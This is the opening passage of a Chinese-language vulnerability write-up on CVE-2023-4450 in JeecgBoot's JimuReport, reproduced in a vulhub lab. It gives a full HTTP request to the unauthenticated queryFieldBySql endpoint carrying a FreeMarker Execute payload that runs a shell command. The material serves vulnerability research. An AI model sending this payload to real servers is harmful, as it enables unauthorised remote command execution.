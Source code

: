 
jeect-boot积木报表漏洞rce分析(CVE-2023-4450)

- - -

# jeect-boot积木报表漏洞rce分析(CVE-2023-4450)

## 一.漏洞复现

这里使用的漏洞环境时vulhub的jeect-boot。靶场介绍说是：

以下的 Jimureport 组件库中都存在，由于未授权的 API `/jmreport/queryFieldBySql` 使用了 freemarker 解析 SQL 语句从而导致了 RCE 漏洞的产生。

```plain
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: curl/7.88.1
Accept: */*
Content-Type: application/json
Content-Length: 121
Connection: close

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"touch /tmp/success\")}",
    "type": "0"
}
```

[![](assets/1704273687-cc31aa873f2ccee487b2392e45af80f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103153336-67c4c87a-aa0a-1.png)
